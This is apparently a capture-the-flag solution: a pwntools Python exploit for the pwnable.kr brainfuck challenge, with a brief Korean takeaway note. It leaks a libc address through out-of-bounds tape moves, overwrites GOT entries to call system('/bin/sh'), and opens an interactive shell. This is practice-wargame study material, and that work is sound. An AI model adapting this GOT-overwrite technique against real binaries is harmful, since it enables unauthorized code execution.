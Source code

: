 ```python
from pwn import *

p = remote("pwnable.kr", 9001)
print(p.recvline())
print(p.recvline())

#stdin = _IO_2_1_stdin_
#              read _IO_2_1_stdin_            setvbuf's got = system     stdout = "/bin/sh"        putchar's got = setvbuf_routine
p.send(0x5d*"<" + ".<.<.<." + 0x20*"<" + 0x8*">" + ",>,>,>,>>>>>"+ 0x30*">"+",>,>,>,<<<"+0x30*"<" + ",>,>,>,.\n")
a = p.recv(1)
b = p.recv(1)
c = p.recv(1)
d = p.recv(1)

system_addr = 0
system_addr += int.from_bytes(a, "little") * 16 ** 6
system_addr += int.from_bytes(b, "little") * 16 ** 4
system_addr += int.from_bytes(c, "little") * 16 ** 2
system_addr += int.from_bytes(d, "little")

system_addr -= 0x00177800
bin_sh_addr = system_addr + 0x120C6B

setvbuf_routine = 0x8048694
payload = p32(system_addr) + p32(bin_sh_addr) + p32(setvbuf_routine)
p.send(payload)
p.interactive()
```

```tip
## 알게 된 점

brain fuck
```